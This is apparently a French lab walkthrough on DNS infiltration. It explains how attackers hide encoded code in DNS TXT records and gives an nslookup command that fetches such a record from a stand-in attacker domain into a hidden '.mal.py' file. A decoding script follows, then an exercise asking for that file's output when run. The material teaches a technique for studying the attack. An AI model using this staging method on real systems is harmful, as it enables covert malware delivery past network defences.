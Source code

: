 # Infiltration DNS 

### Infiltration DNS : Theorie

- L'infiltration DNS est une autre méthode utilisée par les attaquants pour exploiter les diverses vulnérabilités du système de noms de domaine d'une organisation. 

- Contrairement aux attaques d'exfiltration sur le DNS, l'infiltration définit le processus par lequel le code malveillant est exécuté pour manipuler les serveurs DNS soit à l'aide de systèmes automatisés où les attaquants se connectent à distance à l'infrastructure réseau, soit manuellement.

- L'infiltration DNS est principalement utilisée pour la delivery de fichiers/programmes ou de staging de logiciels malveillants. 

- Avec des systèmes de détection des menaces basés sur le comportement, les signatures ou la réputation, il est possible que cette méthode d'attaque soit détectée.

- Cependant, si cette méthode de transport des données passe inaperçue, elle peut conduire à des activités malveillantes telles que l'exécution de code dans l'environnement de l'organisation. 

- Historiquement, cela a causé des ravages et des perturbations pour diverses entreprises bien connues.

- En résumé, le protocole DNS pourrait être utilisé comme un protocole secret qui pourrait faciliter les efforts de mise en scène et d'exécution des logiciels malveillants pour communiquer avec le ou les serveurs C2 (commande et contrôle) d'un attaquant. 

- Dans la tâche suivante, nous explorerons comment cela pourrait être réalisé.

### Infiltration DNS : Exemple

introduction

- Dans ce scénario, l'attaquant va infiltrer un morceau de code « malveillant » sur l'ordinateur de la victime. 
- Il existe de nombreuses techniques différentes que les attaquants dans le monde réel utilisent pour y parvenir. 
- Pour simplifier les choses, j'utiliserai un enregistrement TXT configuré sur mon serveur DNS AWS public. La valeur contenue dans cet enregistrement est un code 'malveillant' codé.

- Étant donné que les enregistrements TXT sont limités à 255 caractères, les pirates informatiques auront probablement plusieurs enregistrements TXT configurés pour leur serveur DNS. Cela dépend finalement de la longueur de leur code. 
- Maintenant que tout est configuré et prêt ; tout ce que le pirate informatique doit faire est de demander ces enregistrements TXT, de capturer la ou les valeurs, de les décoder et, les voilà maintenant infiltré leur propre code dans un système compromis via les enregistrements DNS TXT.

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807297515518427197/infil.png"/>

Vous pouvez voir mon enregistrement TXT ci-dessous.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807138166867623956/1.PNG"/>


Fichiers utilisés pour cette démo

1. `nslookup`

Cela recherchera d'abord l'enregistrement TXT pour rt1.badbaddoma.in, puis obtiendra la valeur entre guillemets, et enfin, il enregistrera la valeur dans un fichier nommé '.mal.py'.

`nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py
`

2. `packetSimple.py` ( https://github.com/kleosdc/dns-exfil-infil )

Lorsque le code vous demande un 'Nom de fichier', entrez le nom de fichier '.mal.py'. C'est le fichier dans lequel nous avons enregistré la valeur encodée.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807140371967508500/2.PNG"/>


`python3 ~/packetySimple.py
`
`Filename: .mal.py
`
`[+] Reading from file...
`
`[+] Base58 decoded.
`
`[+] Base64 decoded.
`
`[+] Done, .mal.py is decoded.
`
### Infiltration DNS : Pratique

- Lisez le fichier TASK qui se trouve dans le dossier `~/challenges/infiltration/`.

- Vous pouvez utiliser la même commande que celle utilisée dans la partie Infiltration DNS - Exemple.
- Gardez à l'esprit que vous devrez ajuster la section « grep » et utiliser les caractères appropriés pour faire correspondre. Par exemple, si la valeur de texte de l'enregistrement TXT commence par « G6... », vous devrez utiliser « grep G6 ».

**Répondre aux questions ci-dessous**

Suivez les instructions du fichier TASK pour répondre à cette question.

Quelle est la sortie du fichier python exécuté
```
reponse
```
